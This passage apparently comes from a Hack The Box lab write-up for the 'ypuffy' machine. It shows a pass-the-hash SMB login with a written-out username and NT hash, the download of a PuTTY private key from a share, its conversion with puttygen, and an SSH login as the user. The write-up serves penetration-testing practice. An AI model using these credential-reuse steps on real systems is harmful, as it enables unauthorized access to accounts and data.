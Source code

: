 `smbclient -U alice1978%0B186E661BBDBDCF6047784DE8B9FD8B --pw-nt-hash //ypuffy.htb/alice`
![](/images/hackthebox/ypuffy/7.png)
#### There's only one file called `my_private_key.ppk` , `get my_private_key.ppk` to download it.
<br>
<hr>
### SSH and getting user
#### `my_private_key.ppk` is a putty private key , we need to convert that to an ssh private key to be able to ssh with it. 
#### On kali I had to get `putty-tools` first 
`apt-get install putty-tools`
#### Then we will use `puttygen` :
`puttygen my_private_key.ppk -O private-openssh -o alice.key`
#### Now let's take a look at the key :
![](/images/hackthebox/ypuffy/8.png)
#### Last step is to `chmod 600 alice.key` and finally ssh
`ssh -i alice.key alice1978@ypuffy.htb`